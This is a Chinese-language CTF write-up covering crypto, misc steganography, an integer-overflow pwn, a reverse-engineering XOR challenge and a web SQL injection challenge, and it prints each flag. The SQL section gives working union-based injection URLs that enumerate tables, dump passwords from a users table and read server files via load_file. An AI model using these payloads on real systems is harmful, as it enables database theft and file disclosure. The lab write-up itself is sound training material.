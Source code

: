 # Crypto emoticons

**flag{ab7e558f-3851-4bdf-9c9e-a86fcc692c47}**

解码方法：打开浏览器，进入浏览器控制台，在console控制台粘贴代码，回车后便能得到解密后的代码。

# Misc joker1

## 较为简单的flag1

压缩包解压后是一张图片 右键也看不到什么有用的信息

用010editor或者其他十六进制工具打开

![img](.assets/clip_image001.png)

最后有一段这个东西，看到结尾=号基本可以猜到是base64

![img](.assets/clip_image002.png)

解码后的东西是十六进制是东西，拿去转换一下

可以自己写python脚本也可以网上找在线工具

```python
data = [0x66,0x6c,0x61,0x67,0x7b,0x59,0x6f,0x75,0x5f,0x61,0x72,0x65,0x5f,0x73,0x6f,0x5f,0x67,0x6f,0x6f,0x64,0x7d]
flag = ""
for i in data:
		flag += chr(i)
print(flag)
```

得到flag

flag{You_are_so_good}

## 较为困难的flag2

这个是需要更改png文件的图片高度

![img](.assets/clip_image003.png)

在文件开头的第23-24个字节是文件的高度

我们修改为

![img](.assets/clip_image004.png)

![img](.assets/clip_image005.png)

得到flag

flag{Nice_job!}

# Pwn intOverflow

- 可以看出要让int b小于100，又要让unsigned int b大于200，只要传入一个-1，就可以让-1<100，而变成unsigned int之后-1会变成一个超大的整数，因此可以很轻松的大于200，获得权限。

- 然后 `cat /flag` 来读取根目录下的 flag 文件，获得答案

# re guess_game

## flag1

- 获取的步骤可以硬猜，也可以直接用 IDA 打开
- 字符串里就有

![image-20210418141323519](.assets/image-20210418141323519.png)

## flag2

- 可以看到第二步密钥输入的时候有一个异或比对的过程
- 因此将其中的密文提取出来，根据异或的算法逆推过程即可得到 flag
    - 异或的逆运算也是异或

```c
#include <iostream>
using namespace std;
int main()
{
    int a[] = {
        103, 110, 98, 99, 126, 126, 55, 122, 86, 99, 120, 83, 121, 97, 96, 79, 116, 38, 96, 109, 104
    };
    for (int i = 0; i < 21; i++)
    {
        printf("%c", a[i] ^ (i + 1));
    }
}
```

# web sql

## easy_sql

### 判断注入类型（字符型注入/数字型输入）

```
http://hwserver.bi0x.cn:8302/?id=1 and 1=1#
```

发现是数字型注入

![](.assets/98ejkt.png)

### 判断字段数

```
http://hwserver.bi0x.cn:8302/?id=1 order by 3#
```

![](.assets/itx43y.png)

![](.assets/huvihu.png)

### 判断注入点

```
http://hwserver.bi0x.cn:8302/?id=0 union select 1,2,3#
```

![](.assets/1se64p.png)

1 2 3都是注入点

### 爆库名

```
http://hwserver.bi0x.cn:8302/?id=0 union select database(),2,3#
```

![](.assets/j4u8yf.png)



库名是`ctf` , 接下来爆表名

### 爆表名

```
http://hwserver.bi0x.cn:8302/?id=0 union select group_concat(table_name),2,3 from information_schema.tables where table_schema=database()#
```

 表名如下：`emails,referers,uagents,users `

![](.assets/37x67f.png)



### 爆字段名

```
http://hwserver.bi0x.cn:8302/?id=0 union select group_concat(column_name),2,3 from information_schema.columns where table_name='users'#
```

这里选择爆`users`表的字段，因为一般来说用户名密码才是数据库中最重要的资料。

![1618735710786](C:\Users\12751\AppData\Roaming\Typora\typora-user-images\1618735710786.png)

这里爆出字段名如下：` id,username,password,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS `

### 爆字段内容

```
http://hwserver.bi0x.cn:8302/?id=0 union select group_concat(password),2,3 from users#
```

这里爆出来flag：` flag{this_is_easy_SQL} `

然后得到另一个线索：` flag in /flag `

![](.assets/9o40cr.png)



也就是说另外一个flag藏在数据库以外，需要使用mysql的函数去读取服务器文件。

### 读取文件

```
http://hwserver.bi0x.cn:8302/?id=0 union select load_file('/flag'),2,3#
```

flag：` flag{th1s_1s_a_l1tt1e_h4rd_Sq1_f1ag} `

完结撒花~

喜欢背景可以收藏下面这张图片：

![](.assets/wetsf7.jpg)